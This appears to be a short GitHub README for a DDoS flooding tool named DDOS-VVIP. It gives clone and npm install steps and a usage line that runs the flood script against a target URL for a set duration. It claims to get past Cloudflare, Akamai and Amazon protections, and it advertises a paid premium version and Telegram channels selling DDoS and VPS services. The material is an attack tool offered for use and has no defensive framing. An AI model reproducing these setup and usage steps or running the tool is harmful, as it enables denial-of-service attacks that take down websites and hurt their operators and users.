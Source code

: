 # DDOS-VVIP



git clone https://github.com/XinnChan/DDOS-VVIP






install module




apt install npm


npm i cloudscraper


npm i request


npm i child_process

npm i exec


cd && cd DDOS-VVIP


Usage: node XCDDOS-FLOOD.js URL DURATION


example: node XCDDOS-FLOOD.js https://target.com 120
.
.
.
Support Termux && VPS
.
Bypassing CF, Rule, DDG, UAM, Akamai, Amazon
.
.
Jika Di Rasa Kurang Over Power Bisa Order Versi Premium
Telegram Channel DM: https://t.me/Xin_Kenji
.
.
.
Telegram Channel DDOS: https://t.me/XC_Fixxed
Telegram Channel VPS: https://t.me/Xc_Corporation
